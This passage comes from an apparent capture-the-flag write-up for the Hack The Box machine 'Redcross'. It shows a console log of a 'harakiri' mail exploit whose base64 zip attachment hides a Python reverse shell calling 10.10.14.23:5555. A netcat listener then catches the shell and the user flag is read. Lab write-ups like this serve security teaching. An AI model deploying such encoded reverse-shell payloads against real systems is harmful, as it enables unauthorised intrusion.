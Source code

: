 ```console
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

harakiri
--===============2632093882109835759==
Content-Type: application/octet-stream; Name="harakiri.zip"
MIME-Version: 1.0
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="harakiri.zip"

UEsDBBQAAAAIALl6a00BtHNYbAEAAI0BAADyAAAAYSI7cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0
LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NL
X1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuMjMiLDU1NTUpKTtvcy5kdXAyKHMuZmlsZW5v
KCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3Vi
cHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc7ZWNobyAiYS56aXAL8GZmEWFgYOBg2FmV
7Su+rEFdmJGBgZ2ZgYEHKJqRWJSYnVmUqVdSUTI18HRes4HAnt/abo8meZiqyGSIbP2+Kj5g5atE
Zr6yU94blnz4/nTiB66gq1Ml1penXU/Oicw4vKlqj35sQtjuRPeeLr5W05mXLjof98pt6Fz090jS
/mWSky5efTxl986JM3/Nvaq29vBc8Tixz3kGa3X39Ny+OaVy25dPP+Kv7f0ztzffZC8jyz9pp2VC
y6Xkt673/cpy/bC1qupT0zt3/0kGnfILKrWx69y/ILjvpMu2+ceY16/S8eJ1Dva736LCO6VW88Ir
rqnxoX3Tw3d8O2iX8Dk5onnGyesbvSQiQ9rUGH/mrDuidcMsuHWC2yGV5184zs4RdT/OOXvfpyty
r78ct8j/O2lq4JM3e+e282azxgcLaW1QO3YzRCsjKDjnqH6ANyOTCAPu4IOBBkYGtMAM8GZlA4kx
AqEVkLYFqwAAUEsBAhQAFAAAAAgAuXprTQG0c1hsAQAAjQEAAPIAAAAAAAAAAAAAAIABAAAAAGEi
O3B5dGhvbiAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChz
b2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjIz
Iiw1NTU1KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9z
LmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTsn
O2VjaG8gImEuemlwUEsFBgAAAAABAAEAIAEAAHwCAAAAAA==
--===============2632093882109835759==--

[HARAKIRI SUCCESS] SMTPDataError is most likely an error unzipping the archive, which is what we want [plugin timeout]
www-data@redcross:/dev/shm$ 
```

```console
root@ragingunicorn:~/hackthebox/Machines/Redcross# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.113] 33380
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(penelope) gid=1000(penelope) groups=1000(penelope)
$ cat user.txt
cat: user.txt: No such file or directory
$ pwd
/
$ cd /home/penelope
$ cat user.txt
ac899b...
```

### Priv esc to root
